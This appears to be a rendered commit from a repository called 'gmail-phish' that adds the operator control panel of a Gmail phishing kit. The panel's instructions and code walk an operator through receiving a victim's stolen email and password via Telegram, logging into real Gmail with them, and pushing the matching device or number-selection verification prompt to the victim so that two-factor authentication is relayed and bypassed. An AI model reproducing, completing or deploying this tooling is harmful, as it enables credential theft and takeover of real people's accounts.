
After one commit to davidmassmutual/gmail-phish, a PHP site: page /private/control.html in a window 1280 px wide. The commit adds this page. Shown: the top 777 px of the page, without its empty margins (308-993 px from the left). Run offline with PHP 8.4, Linux system fonts and the light colour scheme; data that the repository does not hold is empty.

Commit message:
Rename control panel to control.html and fix main page redirect

```diff
--- /dev/null
+++ b/control.html
@@ -0,0 +1,273 @@
+<!DOCTYPE html>
+<html lang="en">
+<head>
+    <meta charset="UTF-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>Gmail Verification Control Panel</title>
+    <style>
+        body {
+            font-family: 'Roboto', sans-serif;
+            background: #f5f5f5;
+            margin: 0;
+            padding: 20px;
+        }
+        .container {
+            max-width: 600px;
+            margin: 0 auto;
+            background: white;
+            padding: 30px;
+            border-radius: 8px;
+            box-shadow: 0 2px 10px rgba(0,0,0,0.1);
+        }
+        h1 {
+            color: #1a73e8;
+            text-align: center;
+            margin-bottom: 30px;
+        }
+        .form-group {
+            margin-bottom: 20px;
+        }
+        label {
+            display: block;
+            margin-bottom: 5px;
+            font-weight: 500;
+        }
+        input, select {
+            width: 100%;
+            padding: 10px;
+            border: 1px solid #dadce0;
+            border-radius: 4px;
+            font-size: 14px;
+        }
+        button {
+            background: #1a73e8;
+            color: white;
+            border: none;
+            padding: 12px 24px;
+            border-radius: 4px;
+            cursor: pointer;
+            font-size: 14px;
+            width: 100%;
+        }
+        button:hover {
+            background: #1557b0;
+        }
+        .status {
+            margin-top: 20px;
+            padding: 10px;
+            border-radius: 4px;
+            display: none;
+        }
+        .status.success {
+            background: #e8f5e8;
+            color: #2e7d32;
+            border: 1px solid #4caf50;
+        }
+        .status.error {
+            background: #ffeaea;
+            color: #c62828;
+            border: 1px solid #ef5350;
+        }
+        .instructions {
+            background: #e3f2fd;
+            padding: 15px;
+            border-radius: 4px;
+            margin-bottom: 20px;
+            border-left: 4px solid #1a73e8;
+        }
+        .current-verifications {
+            margin-top: 30px;
+            padding-top: 20px;
+            border-top: 1px solid #dadce0;
+        }
+        .verification-item {
+            display: flex;
+            justify-content: space-between;
+            align-items: center;
+            padding: 10px;
+            border: 1px solid #dadce0;
+            border-radius: 4px;
+            margin-bottom: 10px;
+        }
+        .verification-item button {
+            background: #dc3545;
+            width: auto;
+            padding: 6px 12px;
+        }
+        .verification-item button:hover {
+            background: #c82333;
+        }
+    </style>
+</head>
+<body>
+    <div class="container">
+        <h1>Gmail Verification Control Panel</h1>
+
+        <div class="instructions">
+            <strong>How to use:</strong>
+            <ol>
+                <li>Wait for victim to enter email/password (you'll get it in Telegram)</li>
+                <li>Try logging into real Gmail with those credentials</li>
+                <li>If Gmail shows "Verify it's you" (Yes/No), select "device_verify"</li>
+                <li>If Gmail shows "Choose a verification code" (number grid), select "choose_number"</li>
+                <li>Victim's page will automatically show the correct prompt</li>
+            </ol>
+        </div>
+
+        <form id="verificationForm">
+            <div class="form-group">
+                <label for="email">Victim's Email:</label>
+                <input type="email" id="email" required placeholder="Enter the email you received in Telegram">
+            </div>
+
+            <div class="form-group">
+                <label for="prompt_type">Verification Prompt Gmail is Showing:</label>
+                <select id="prompt_type" required>
+                    <option value="">Select prompt type...</option>
+                    <option value="device_verify">Device Verification (Tap Yes/No)</option>
+                    <option value="choose_number">Number Selection (Choose a number)</option>
+                </select>
+            </div>
+
+            <div class="form-group" id="numbers-group" style="display: none;">
+                <label for="number">Number Gmail Wants User to Select:</label>
+                <input type="text" id="number" placeholder="e.g. 42" pattern="[0-9]{1,2}" maxlength="2" title="Enter the number (0-99) that Gmail is asking the user to select">
+                <small style="color: #666; font-size: 12px;">Enter the number Gmail highlights/asks the victim to tap (1-2 digits)</small>
+            </div>
+
+            <button type="submit">Set Verification Prompt</button>
+        </form>
+
+        <div id="status" class="status"></div>
+
+        <div class="current-verifications">
+            <h3>Current Active Verifications</h3>
+            <div id="verificationsList">
+                <!-- Will be populated by JavaScript -->
+            </div>
+        </div>
+    </div>
+
+    <script>
+        const form = document.getElementById('verificationForm');
+        const statusDiv = document.getElementById('status');
+        const promptTypeSelect = document.getElementById('prompt_type');
+        const numbersGroup = document.getElementById('numbers-group');
+        const numbersInput = document.getElementById('numbers');
+
+        // Show/hide numbers input based on prompt type selection
+        promptTypeSelect.addEventListener('change', function() {
+            if (this.value === 'choose_number') {
+                numbersGroup.style.display = 'block';
+                numbersInput.required = true;
+            } else {
+                numbersGroup.style.display = 'none';
+                numbersInput.required = false;
+                numbersInput.value = '';
+            }
+        });
+
+        form.addEventListener('submit', function(e) {
+            e.preventDefault();
+
+            const email = document.getElementById('email').value;
+            const promptType = document.getElementById('prompt_type').value;
+            const number = document.getElementById('number').value;
+
+            let formData = 'email=' + encodeURIComponent(email) + '&prompt_type=' + encodeURIComponent(promptType);
+
+            if (promptType === 'choose_number') {
+                formData += '&number=' + encodeURIComponent(number);
+            }
+
+            const xhr = new XMLHttpRequest();
+            xhr.open('POST', 'verify.php', true);
+            xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
+            xhr.onreadystatechange = function() {
+                if (xhr.readyState === 4) {
+                    try {
+                        const response = JSON.parse(xhr.responseText);
+                        statusDiv.style.display = 'block';
+                        if (response.success) {
+                            statusDiv.className = 'status success';
+                            statusDiv.textContent = response.message;
+                            form.reset();
+                            numbersGroup.style.display = 'none';
+                            loadVerifications();
+                        } else {
+                            statusDiv.className = 'status error';
+                            statusDiv.textContent = response.error || 'Error occurred';
+                        }
+                    } catch (e) {
+                        statusDiv.style.display = 'block';
+                        statusDiv.className = 'status error';
+                        statusDiv.textContent = 'Server response error';
+                    }
+                }
+            };
+            xhr.send(formData);
+        });
+
+        function loadVerifications() {
+            const xhr = new XMLHttpRequest();
+            xhr.open('GET', 'verify.php?list=all', true);
+            xhr.onreadystatechange = function() {
+                if (xhr.readyState === 4 && xhr.status === 200) {
+                    try {
+                        const data = JSON.parse(xhr.responseText);
+                        displayVerifications(data);
+                    } catch (e) {
+                        console.error('Failed to parse verifications data');
+                    }
+                }
+            };
+            xhr.send();
+        }
+
+        function displayVerifications(data) {
+            const listDiv = document.getElementById('verificationsList');
+            listDiv.innerHTML = '';
+
+            if (Object.keys(data).length === 0) {
+                listDiv.innerHTML = '<p>No active verifications</p>';
+                return;
+            }
+
+            Object.values(data).forEach(item => {
+                const numberText = item.number !== undefined ? ` | Number: ${item.number}` : '';
+                const itemDiv = document.createElement('div');
+                itemDiv.className = 'verification-item';
+                itemDiv.innerHTML = `
+                    <div>
+                        <strong>${item.email}</strong><br>
+                        <small>Prompt: ${item.prompt_type}${numberText} | Set: ${new Date(item.timestamp * 1000).toLocaleString()}</small>
+                    </div>
+                    <button onclick="clearVerification('${item.email}')">Clear</button>
+                `;
+                listDiv.appendChild(itemDiv);
+            });
+        }
+
+        function clearVerification(email) {
+            const xhr = new XMLHttpRequest();
+            xhr.open('DELETE', 'verify.php?email=' + encodeURIComponent(email), true);
+            xhr.onreadystatechange = function() {
+                if (xhr.readyState === 4 && xhr.status === 200) {
+                    try {
+                        const response = JSON.parse(xhr.responseText);
+                        if (response.success) {
+                            loadVerifications();
+                        }
+                    } catch (e) {
+                        console.error('Failed to parse clear response');
+                    }
+                }
+            };
+            xhr.send();
+        }
+
+        // Load verifications on page load
+        loadVerifications();
+    </script>
+</body>
+</html>
--- a/verify.php
+++ b/verify.php
@@ -114,7 +114,7 @@
 
 // Redirect to control panel for UI
 if ($_SERVER['REQUEST_METHOD'] === 'GET' && !isset($_GET['email']) && !isset($_GET['list'])) {
-    header('Location: control_panel.html');
+    header('Location: control.html');
     exit;
 }
 
```
Also changed, not shown: index.php (+3 -16 lines).
